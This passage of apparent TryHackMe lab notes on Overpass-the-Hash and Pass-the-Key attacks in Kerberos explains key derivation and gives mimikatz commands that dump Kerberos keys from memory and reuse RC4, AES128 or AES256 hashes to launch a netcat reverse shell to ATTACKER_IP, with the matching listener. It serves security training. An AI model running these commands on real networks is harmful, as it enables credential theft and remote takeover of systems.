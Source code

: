 ```
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```

### <font color="#FFA500">Overpass-the-hash / Pass-the-Key</font>

This kind of attack is similar to PtH but applied to Kerberos networks.

When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be either DES (disabled by default on current Windows versions), RC4, AES128 or AES256, depending on the installed Windows version and Kerberos configuration. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the name **Pass-the-key (PtK)**.

We can obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via Pass-the-Key (`nc64` is already available in THMJMP2 for your convenience):

#### If we have the RC4 hash:

```
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

#### If we have the AES128 hash:

```
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

#### If we have the AES256 hash:

```
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as **Overpass-the-Hash (OPtH)**.

To receive the reverse shell, we should run a reverse listener on our AttackBox:

```bash
nc -lvp 5556
```

Just as with PtH, any command run from this shell will use the credentials injected via mimikatz.
